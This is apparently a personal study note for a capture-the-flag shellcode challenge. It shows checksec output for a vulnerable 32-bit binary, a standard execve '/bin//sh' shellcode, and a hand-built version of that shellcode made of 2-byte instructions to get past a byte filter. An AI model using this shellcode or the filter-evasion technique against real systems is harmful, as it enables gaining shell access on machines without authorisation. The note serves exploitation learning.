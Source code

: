 # Lesson
- shellcode  
  - Linux system calls set arguments in registers and are invoked by a software interrupt using "int 0x80".  
    - https://www.mztn.org/lxasm/int80.html  
    - https://www.mztn.org/lxasm/asm04.html  
- system call  
  - https://os.pubpub.org/pub/blog-1/release/4  
- kernel  
- how to understand a logic  
  - (light) grisp the overview with gdb  
  - (heavy) read code manually  

# Memo
1. check  
```zsh
$ file fun
fun: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=325e35378982f451f374c7140c5249bb1c52ab18, not stripped
$
$ checksec --file=./fun --output=json | jq .
{
  "./fun": {
    "relro": "partial",
    "canary": "no",
    "nx": "no",
    "pie": "no",
    "rpath": "no",
    "runpath": "no",
    "symbols": "yes",
    "fortify_source": "no",
    "fortified": "0",
    "fortify-able": "0"
  }
}
```

2. ghidra  

3. create shellcode  
https://shell-storm.org/shellcode/files/shellcode-517.html  
```
"\x31\xc9"                  // xor    %ecx,%ecx
"\xf7\xe1"                  // mul    %ecx
"\x51"                      // push   %ecx
"\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f
"\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f
"\x89\xe3"                  // mov    %esp,%ebx
"\xb0\x0b"                  // mov    $0xb,%al
"\xcd\x80"                  // int    $0x80
```
2 byte  
https://www.mztn.org/lxasm64/amd09_shift.html  
```zsh
$ pwn asm -c 32 nop
90
$ pwn asm -c 32 "nop;nop"
9090
$ pwn asm -c 32 "push eax"
50
$ pwn asm -c 32 "push 43"
$ pwn asm -c 32 "xor eax eax"
$ pwn asm -c 32 "xor eax,eax"
$ pwn asm -c 32 "mov al, 0x68"
$ pwn asm -c 32 "shl eax"
$ pwn asm -c 32 "mov ax 0x6873"
$ pwn asm -c 32 "mov ax, 0x6873"
$ pwn asm -c 32 "shl eax, 12"
$ pwn asm -c 32 "shl eax, 1"
$ pwn asm -c 32 "shl eax, 2"
$ pwn asm -c 32 "mov al, 0x73"
$ pwn asm -c 32 "mov al, 0x2f"
$ pwn asm -c 32 "push eax"
$ pwn asm -c 32 "mov al, 0x6e"
$ pwn asm -c 32 "mov al, 0x69"
```
```zsh
"\x31\xc9"                  // xor    %ecx,%ecx
"\xf7\xe1"                  // mul    %ecx
"\x51"                      // push   %ecx

\x90                        // nop

// "\x68\x2f\x2f\x73\x68"      // push   $0x68732f2f

###
\x31\xc0 // xor eax,eax

\xb0\x68                  // mov al, 0x68
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax


\xb0\x73                  // mov al, 0x73
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x2f                  // mov al, 0x2f
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x2f                  // mov al, 0x2f

\x50                      // push eax
\x90                      // nop


// "\x68\x2f\x62\x69\x6e"      // push   $0x6e69622f

\x31\xc0 // xor eax,eax

\xb0\x6e                  // mov al, 0x6e
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax


\xb0\x69                  // mov al, 0x69
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x62                  // mov al, 0x62
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax
\xd1\xe0                  // shl eax

\xb0\x2f                  // mov al, 0x2f

\x50                      // push eax
\x90                      // nop

###

"\x89\xe3"                  // mov    %esp,%ebx
"\xb0\x0b"                  // mov    $0xb,%al
"\xcd\x80"                  // int    $0x80
```

# Ref
- https://cyb3rwhitesnake.medium.com/picoctf-filtered-shellcode-pwn-3d69010376df  
- https://sh0ebill.hatenablog.com/entry/2022/11/13/204614  
- https://zenn.dev/t0m3y/scraps/275ba361c564c8  
